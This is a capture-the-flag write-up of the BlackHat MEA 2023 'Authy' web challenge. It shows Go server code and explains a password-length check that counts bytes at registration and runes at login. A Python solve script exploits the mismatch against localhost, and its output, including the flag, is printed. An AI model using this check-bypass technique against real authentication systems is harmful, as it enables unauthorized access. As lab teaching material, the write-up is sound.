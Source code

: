 # Web - Authy

## Download&#x20;

* If you wanna try out the chall files are here : [https://github.com/heapbytes/CTFs/tree/main/2023/BlackHat-MEA-CTF/web](https://github.com/heapbytes/CTFs/tree/main/2023/BlackHat-MEA-CTF/web)
* Password : `flagyard`

## Challenge files

```bash
.
├── black.db
├── controller
│   └── LoginController.go
├── db
│   └── dbConnection.go
├── docker-compose.yml
├── Dockerfile
├── go.mod
├── go.sum
├── helper
│   └── util.go
├── model
│   └── models.go
└── server.go

5 directories, 10 files
```



## server.go

```go
package main

import (
        "net/http"
        "time"

        controllers "github.com/blackhat/controller"
        "github.com/labstack/echo/v4"
        "github.com/labstack/echo/v4/middleware"
)

func main() {
        e := echo.New()

        // e.Use(middleware.Logger())
        e.Use(middleware.Recover())

        e.Use(middleware.CORSWithConfig(middleware.CORSConfig{
                AllowOrigins: []string{"*"},
                AllowMethods: []string{echo.GET, echo.POST},
        }))

        e.POST("/login", controllers.LoginController)
        e.POST("/registration", controllers.Registration)
        s := &http.Server{
                Addr:         ":1323",
                ReadTimeout:  20 * time.Minute,
                WriteTimeout: 20 * time.Minute,
        }
        e.Logger.Fatal(e.StartServer(s))
}
```

Looking at the file we can say it's nothing but just a general login/registeration index file.



* The intresting file was under `controller/LoginController.go`
* The main fact to get the `flag` was to have a password of length less than 6 (checkout following snippet).

```go
        if len(password) < 6 {
                flag := os.Getenv("FLAG")
                res := &Flag{
                        Flag: flag,
                }
                resp := c.JSON(http.StatusOK, res)
                log.Info()
                return resp
        }
```

* BUT BUT BUT, while registering we see that the request isn't sent to register if our password length is less than 6 (check the following snippet).

```go
if len(user.Password) < 6 {
        log.Error("Password too short")
        resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "Password too short", "EXT_REF"))
        return resp
}
```



## Vulnerability - Rune

* If you looked the src code closely,&#x20;

```go
password := []rune(user.Password)
result.Token = helper.JwtGenerator(result.Username, result.Firstname, result.Lastname, os.Getenv("SECRET"))
```

* It's using r**une** to check the length of the password.
* What's rune ?&#x20;
  * tl;dr : it's basically used for unicode characters
* Read more here :&#x20;
  * [https://www.geeksforgeeks.org/rune-in-golang/](https://www.geeksforgeeks.org/rune-in-golang/)
  * [https://go.dev/blog/strings](https://go.dev/blog/strings)



### Exploit

* So what next?&#x20;
  * Just create a password with unicode character of length more than 6
  * while checking with run the length of our unicode character would be 1 or whatever character code you used.

### Solve.py

```python
import requests

url = 'http://localhost:1323/'
username, password = 'FlagGrabberLocal', '\u23188888'

# register
req = requests.post(url + 'registration', json={"Username": username, "Password": password})
print(req.content, '\n')

# flag grabinggg
req = requests.post(url + 'login', json={"Username": username, "Password": password})
print(req.content)
```

## Flag

```bash
└─➜ python3 solve.py                                                                                                                                                                     [0]
b'{"username":"FlagGrabberLocal","password":"$2a$05$vsvJGNY6CNvld4eIaaJjy.h0DI/ROoc2UC2eiaWGsSq0Ow4yBYnJC","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiIiLCJsYXN0bmFtZSI6IiIsInVzZXJuYW1lIjoiRmxhZ0dyYWJiZXJMb2NhbCJ9.QDC0wMT-pDtJAGPkEBymdeJCm_EV5l-CJcWstKMD66I","date_created":"2023-10-24 15:33:35"}\n'

b'{"flag":"BHFlagY{this_is_a_flag}"}\n'
```



\-------- and pwned (late writeup? yehp)











